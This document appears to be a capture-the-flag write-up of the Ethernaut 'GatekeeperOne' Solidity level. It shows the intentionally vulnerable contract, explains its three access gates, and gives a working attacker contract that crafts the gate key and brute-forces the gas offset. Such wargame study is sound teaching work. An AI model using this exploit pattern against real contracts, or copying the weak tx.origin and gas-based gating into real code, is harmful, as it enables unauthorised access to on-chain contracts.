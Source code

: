 <div align="center">

# GatekeeperOne

</div>



**GatekeeperOne (Vulnerable Code) :**


<details>
<summary>Code</summary>

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}

```

</details>

---------

**Approach and Exploit Method Including Code :** 


1. **Understand the contract**

- `GatekeeperOne` protects `enter()` with three gates:

  - **Gate One:** `require(msg.sender != tx.origin)`  
    → caller must be a **contract** (you cannot call `enter` directly from your EOA).

  - **Gate Two:** `require(gasleft() % 8191 == 0)`  
    → the remaining gas at that point must be a multiple of `8191` — you must call with a carefully chosen gas amount so this condition holds inside `enter()`.

  - **Gate Three:** three checks on `_gateKey`:
    - `uint32(uint64(_gateKey)) == uint16(uint64(_gateKey))` (part one)  
    - `uint32(uint64(_gateKey)) != uint64(_gateKey)` (part two)  
    - `uint32(uint64(_gateKey)) == uint16(uint160(tx.origin))` (part three)  
    → the key must be crafted so its lower 16 bits equal the low 16 bits of your EOA, but the 32-bit and 64-bit views must satisfy the inequality (use bit manipulation to set the high bit).


1. **Exploit Method**

    i. **Deploy an attacker contract** (call it `Attack`) — this contract will call `GatekeeperOne.enter(...)` so `msg.sender != tx.origin` passes.

    ii. **Build the gate3 key** inside the attacker (or off-chain) using your EOA (`tx.origin`):
    - `uint16 k16 = uint16(uint160(tx.origin));`
    - `uint64 k64 = uint64(1 << 63) + uint64(k16);`  // set a high bit to satisfy the inequality
    - `bytes8 key = bytes8(k64);`

    iii. **Call `enter` from the attacker contract with a tuned gas value**:
    - From your EOA, call the attacker’s entry method which forwards the call to `GatekeeperOne.enter{gas: <computed>}(key)`.
    - Try different `gas` offsets (0 .. 8190) appended to a safe multiplier of 8191 until the check `gasleft() % 8191 == 0` inside `enter()` passes. In practice the attacker loops/tries small gas values until success.

    iv. **Verify success**
    - After a successful call, `gatekeeper.entrant()` should equal your EOA (`tx.origin`).



## Exploit Code

```Solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


contract Attack {
    function enter( address _target, uint gas) external {
        GatekeeperOne target = GatekeeperOne(_target);

        uint16 k16 = uint16(uint160(tx.origin));

        uint64 k64 = uint64(1 << 63) + uint64(k16);

        bytes8 key = bytes8(k64);


        require(gas < 8191, "gas >= 8191 ");
        require(target.enter{gas : 8191 * 10 + gas}(key), "Failed");
    }
}


```

---



